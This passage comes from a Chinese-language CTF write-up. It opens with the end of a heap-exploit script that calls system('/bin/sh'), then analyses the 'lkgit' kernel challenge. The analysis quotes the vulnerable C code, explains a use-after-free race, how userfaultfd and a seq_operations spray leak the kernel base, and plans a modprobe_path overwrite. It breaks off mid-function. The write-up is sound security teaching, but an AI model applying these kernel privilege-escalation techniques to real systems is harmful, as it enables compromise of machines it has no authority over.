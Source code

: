 ```python
create(0x20, 'H')
create(0x20, b'/bin/sh\x00' + p64(_system))
delete()
r.interactive()
```



### lkgit

實作了一個簡單的 git 在 kernel mode，不過在 function `lkgit_get_object()` 時有 race condition 的情況發生：

```c
static long save_object(hash_object *obj) {
    ...
    if((dup_ix = find_by_hash(obj->hash)) != -1) {
        kfree(objects[dup_ix]); // free
        objects[dup_ix] = NULL;
    }
    ...
}

static long lkgit_get_object(log_object *req) {
    ...
    if ((target_ix = find_by_hash(hash)) != -1) {
        target = objects[target_ix]; // put object in the stack
        
        // below 3 copy_to_user use "target" to get content
        // but it can be freed when req->content will trigger page fault
        if (copy_to_user(req->content, target->content, FILE_MAXSZ))
            goto end;

        get_hash(target->content, hash_other);
        if (memcmp(hash, hash_other, HASH_SIZE) != 0)
            goto end;

        if (copy_to_user(req->message, target->message, MESSAGE_MAXSZ))
            goto end;
        if (copy_to_user(req->hash, target->hash, HASH_SIZE))
            goto end;
        ret = 0;
    }
	...
}
```

我們能透過 `userfault()` 來註冊使用者自定義的 page fault handler，讓 race condition 的機率提高至 100%。在 race condition 發生的情況下，我們可以透過 spray 大小與 `log_object` 同為 0x20 的 `seq_operations`，而其中 `seq_operations` 內有指向 kernel code address 的 pointer，當資料回傳至 user space 時即可 leak kernel base。而 `seq_operations` 的 spray 方法為開啟多個 `/proc/self/stat` 檔案。

下一個階段要做的是 AAW 來寫 `modprobe_path`，分析後發現 function `lkgit_amend_message()` 也擁有 race condition 的情況發生：

```c
static long lkgit_amend_message(log_object *reqptr) {
    long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
    char buf[MESSAGE_MAXSZ];
    log_object req = {0};
    int target_ix;
    hash_object *target;
    if(copy_from_user(&req, reqptr->hash, HASH_SIZE))
        goto end;

    if ((target_ix = find_by_hash(req.hash)) != -1) {
		target = objects[target_ix];
        // save message temporarily
```
